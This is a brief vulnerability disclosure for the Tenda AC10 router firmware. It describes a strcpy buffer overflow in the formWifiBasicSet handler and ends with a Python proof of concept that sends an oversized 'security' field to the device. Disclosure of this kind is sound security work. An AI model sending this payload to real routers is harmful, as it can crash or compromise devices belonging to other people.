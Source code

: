 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formWifiBasicSet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](16.png)

get value from security ,and if all parameters are not set, get into else

![](17.png)

then call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/WifiBasicSet"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'security': payload})
``` 
